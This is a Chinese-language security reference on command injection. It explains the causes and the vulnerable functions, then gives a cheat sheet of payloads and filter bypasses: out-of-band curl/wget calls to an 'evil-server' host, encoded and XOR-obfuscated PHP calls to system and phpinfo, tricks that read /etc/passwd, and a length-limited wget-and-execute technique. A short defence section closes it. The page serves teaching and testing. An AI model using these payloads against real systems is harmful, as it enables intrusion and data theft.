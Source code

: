 命令注入
========================================

简介
----------------------------------------
命令注入通常因为指Web应用在服务器上拼接系统命令而造成的漏洞,直接调用操作系统命令(相当于在cmd下敲命令)。

该类漏洞通常出现在调用外部程序完成一些功能的情景下。比如一些Web管理界面的配置主机名/IP/掩码/网关、查看系统信息以及关闭重启等功能，或者一些站点提供如ping、nslookup、提供发送邮件、转换图片等功能都可能出现该类漏洞。

分类
----------------------------------------
- OS命令执行

::

	常见的shell：Windows上的cmd；Unix/Linux上常见的Shell脚本解释器有bash、sh、csh、ksh；

- Web命令执行

::

	PHP:system,exec,passthru,shell_exec,popen,proc_open
	Python:system,popen,subprocess.call,spawn
	Java:java.lang.Runtime.getRuntime().exec(command)

- 数据库命令执行
- 第三方软件命令执行

常见注入方式
----------------------------------------
- 分号分割
- ``||`` ``&&`` ``&`` 分割
- ``|`` 管道符
- ``\r\n`` ``%d0%a0`` 换行 
- 反引号解析
- ``$()`` 替换

无回显技巧
----------------------------------------
- bash反弹shell
- DNS带外数据
- http带外
    - ``curl http://evil-server/$(whoami)``
    - ``wget http://evil-server/$(whoami)``
- 无带外时利用 ``sleep`` 或其他逻辑构造布尔条件

命令分隔符
----------------------------------------
- ``%0a`` / ``%0d`` / ``\n`` / ``\r``
- ``;``
- ``&`` / ``&&``

常见绕过方式
----------------------------------------

字符串拼接绕过
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- ``(p.h.p.i.n.f.o)();``
- ``(sy.(st).em)(whoami);``
- ``(sy.(st).em)(who.ami);``
- ``(s.y.s.t.e.m)("whoami");``
- ``.......``

字符串转义绕过
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- ``"\x70\x68\x70\x69\x6e\x66\x6f"();#phpinfo();``
- ``"\163\171\163\164\145\155"('whoami');#system('whoami');``
- ``"\u{73}\u{79}\u{73}\u{74}\u{65}\u{6d}"('id');#system('whoami');``
- ``"\163\171\163\164\145\155"("\167\150\157\141\155\151");#system('whoami');``
- ``.......``

多次传参绕过
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- 查询字符串：``?1=system&2=whoami`` body：``cmd=$_GET[1]($_GET[2]);``

空格绕过
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- ``<`` 符号 ``cat<123``
- ``\t`` / ``%09``
- ``${IFS}`` 其中{}用来截断，比如cat$IFS2会被认为IFS2是变量名。另外，在后面加个$可以起到截断的作用，一般用$9，因为$9是当前系统shell进程的第九个参数的持有者，它始终为空字符串

内置函数访问绕过
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- get_defined_functions()：返回所有已定义函数的数组
- cmd=get_defined_functions()[internal][358](whoami);


异或绕过
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- ``$_=('%01'^'%60').('%08'^'%7b').('%08'^'%7b').('%05'^'%60').('%09'^'%7b').('%08'^'%7c');$__='_'.('%07'^'%40').('%05'^'%40').('%09'^'%5d');$___=$$__;$_($___[_]);&_=phpinfo();``
- ``${%ff%ff%ff%ff^%a0%b8%ba%ab}{%ff}();&%ff=phpinfo``
- ``//${_GET}{%ff}();&%ff=phpinfo``

URL编码绕过
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- ``(~%8F%97%8F%96%91%99%90)();`` -> ``#phpinfo();``
- ``(~%8C%86%8C%8B%9A%92)(~%88%97%90%9E%92%96);`` -> ``#system('whoami');``

黑名单绕过
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- ``a=l;b=s;$a$b``
- base64 ``echo "bHM=" | base64 -d``
- ``/?in/?s`` => ``/bin/ls``
- 连接符 ``cat /etc/pass'w'd``
- 未定义的初始化变量 ``cat$x /etc/passwd``

长度限制绕过
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
::

    >wget\
    >foo.\
    >com
    ls -t>a
    sh a

上面的方法为通过命令行重定向写入命令，接着通过ls按时间排序把命令写入文件，最后执行
直接在Linux终端下执行的话,创建文件需要在重定向符号之前添加命令
这里可以使用一些诸如w,[之类的短命令，(使用ls /usr/bin/?查看)
如果不添加命令，需要Ctrl+D才能结束，这样就等于标准输入流的重定向
而在php中 , 使用 shell_exec 等执行系统命令的函数的时候 , 是不存在标准输入流的，所以可以直接创建文件

disable_functions绕过
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- php.ini的disable_functions中设置了禁用函数phpinfo,eval,passthru,exec,system,chroot等
- 系统组件绕过
- ImageMagick漏洞绕过
- 环境变量LD_PRELOAD绕过
- pcntl_exec绕过

防御
----------------------------------------
- 不使用时禁用相应函数
- 尽量不要执行外部的应用程序或命令
- 做输入的格式检查
- 转义命令中的所有shell元字符
    - shell元字符包括 ``#&;`,|*?~<>^()[]{}$\``
